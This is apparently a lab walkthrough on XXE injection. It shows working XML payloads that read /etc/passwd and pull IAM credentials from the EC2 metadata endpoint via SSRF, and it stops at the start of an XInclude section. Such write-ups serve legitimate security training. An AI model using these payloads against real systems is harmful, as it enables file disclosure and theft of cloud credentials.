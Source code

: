 ### Exploiting XXE using external entities to retrieve files

> This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
>
> Inject an XML external entity to retrieve the contents of the /etc/passwd file.

After selecting the 'Check Stock' button we see the below request body in Developer Tools

```xml
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>20</productId><storeId>1</storeId></stockCheck>
```

Payload used when editing and re-sending the request

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]><stockCheck><productId>&read;</productId><storeId>1</storeId></stockCheck>
```

### Exploiting XXE to perform SSRF attacks

> The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
>
> Exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

After selecting the 'Check Stock' button we see the below request body in Developer Tools

```
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Payload used when editing and re-sending the request after iteratively appending to `/latest/meta-data/` in the URL request

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]> <stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### Exploiting XInclude to retrieve files

> Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.
>
> To solve the lab, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file.

After selecting the 'Check Stock' button we see the below request body in Developer Tools
